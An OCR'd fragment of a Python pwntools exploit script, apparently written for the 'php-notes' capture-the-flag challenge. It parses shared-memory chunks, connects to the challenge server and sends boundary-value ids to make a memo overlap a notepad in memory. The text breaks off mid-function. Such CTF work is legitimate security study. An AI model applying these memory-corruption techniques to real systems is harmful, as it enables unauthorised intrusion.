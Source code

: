         pos = self.start

        while True:
            if pos >= self.end:
                return None

            chunk_key = u64(self.data[pos : pos + 8])
            length = u64(self.data[pos + 8 : pos + 16])
            next = u64(self.data[pos + 16 : pos + 24])
            mem = self.data[pos + 24]

            chunk = ShmChunk(
                chunk_key, length, next, self.data[pos + 24 : pos + 24 + length]
            )

            if chunk.key == key:
                return chunk

            pos += chunk.next

            if chunk.next == 0 or pos < self.start:
                return None


def run():
    global LD_OFFSET

    if args.LOCAL:
        r = remote("leone", 1338)
        LD_OFFSET = 31
    else:
        r = remote("php-notes.chal.crewc.tf", 1337)
        LD_OFFSET = 91

    return r


def create_notepad(r):
    # we can create this only one time
    # so hardocding the values

    r.sendlineafter(b"> ", b"1")
    r.sendlineafter(b"id: ", b"4294967295")
    r.sendlineafter(b"Size:", b"3600")


def create_note(r, id, content):
    r.sendlineafter(b"> ", b"3")
    r.sendlineafter(b"id: ", id)
    r.sendlineafter(b"contents:", content)


def create_memo(r, id=b"8589934591", size=b"256"):
    # overlap with the notepad
    # so hardcding the values
